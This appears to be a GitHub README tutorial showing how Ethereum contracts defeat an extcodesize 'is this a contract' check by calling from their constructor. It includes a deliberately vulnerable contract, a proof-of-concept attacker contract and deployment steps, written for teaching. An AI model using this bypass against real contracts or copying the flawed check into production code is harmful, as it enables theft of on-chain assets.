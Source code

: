 # 👿 isContract Manipulation
## The concept
There are two types of accounts in the Ethereum world.
1. EOA Externally Owned Accounts, these are users of wallets
2. Contracts, these are deployed smart contracts,

Sometimes there is a requirement to check if the caller is a EOA or a Contract.<br><br>
The code for this in solidity is to use inline assembly as below.<br><br>
```
assembly {
    contract_codesize := extcodesize(who_is_calling)
}
```
<br><br>
The code checks if the address at ```who_is_calling``` has code associated with it.<br><br>

There is a way to make a malicious contract seem as though there is no code associated with it, and that is by calling the vulnerable contract and function from within the malicious contract's constructor.<br><br>
Below is a vulnerable contract and a test contract to test this concept. We will be using anvil from the Foundry suite to deploy from Remix.<br><br>

```javascript 
// SPDX-License-Identifier: Unlicensed
pragma solidity 0.8.18;

contract VulnerableContract
{
    function notcontracts() public view returns (uint256 somethingReallyValuable)
    {
        //assume all checks are done
        uint256 contract_codesize;
        address who_is_calling;
        who_is_calling = msg.sender;
        //First check the extcodesize of the caller
        assembly {
            contract_codesize := extcodesize(who_is_calling)
        }
        if(contract_codesize > 0)
        {
            //THIS IS A CONTRACT CALLING SO THEY CAN'T GET OUR SUPER VALUABLE ASSET
            somethingReallyValuable = 0;
        }
        else
        {
            //THIS IS A USER CALLING SO THEY CAN GET ALL OF OUR SUPER VALUABLE ASSET
           somethingReallyValuable = type(uint256).max; 
        }
    }
}

contract testCodeSize{
    uint256 public allTheirValue;
    address public vulnerablecontract;

    //When the constructor runs the extcodesize is still 0
    //lets see what allTheirValue is after the constructor
    //allTheirValue should be uint256 Max value.
    constructor(address _vulnerablecontract){
        vulnerablecontract = _vulnerablecontract;
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }
    //This function should set allTheirValue to 0
    function wontWork() external {
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }


}
```

In the ```testCodeSize``` there is a variable called ```allTheirValue```, this will hold the value that is retrieved from the Vulnerable contract, if the call is able to bypass the check for code size we should see the ```allTheirValue``` variable holding a very large value, however if it fails the value should be "0". In the ```testCodeSize``` contract,  the call to ```VulnerableContract.notcontracts()``` is made from within the constructor and an external function called ```wontWork()```.<br><br>

Below are screenshots of the value held by ```allTheirValue``` after deployment and then after calling the ```wontWork()``` function.<br><br>

First deploy ```VulnerableContract```.<br>
Copy the deployed address of ```VulnerableContract``` and deploy the ```testCodeSize``` contract.<br>
Directly after the deployment of the ```testCodeSize``` contract, the value of the ```allTheirValue``` variable holds a really large value.<br><br>
![valueofallTheirValue1](images/valueofallTheirValue1.png)<br><br>
After calling ```VulnerableContract.notcontracts()``` the value of the ```allTheirValue``` variable is now "0" as the ```testCodeSize``` contract now has code associated with it.<br><br>
![valueofallTheirValue2](images/valueofallTheirValue2.png)<br><br>
